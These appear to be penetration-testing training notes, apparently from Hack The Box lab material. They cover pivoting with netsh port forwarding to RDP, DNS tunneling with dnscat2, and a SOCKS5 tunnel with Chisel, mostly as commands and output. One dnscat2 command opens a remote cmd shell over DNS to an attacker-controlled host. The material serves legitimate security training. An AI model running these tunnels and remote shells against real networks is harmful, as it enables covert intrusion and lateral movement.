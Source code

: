```shell
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

#### Verifying Port Forward

```shell
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```


# <span style="color:#9fef00"> DNS Tunneling with Dnscat2</span>

#### Starting the dnscat2 server

```shell
Sauuron@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

 [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1 
```

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```



# <span style="color:#9fef00"> SOCKS5 Tunneling with Chisel</span>

#### shrink chisel size

```shell
go build -ldflags=" -s -w" 
upx brute chisel # compress
```


#### Running the Chisel Server on the Pivot Host

```shell
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

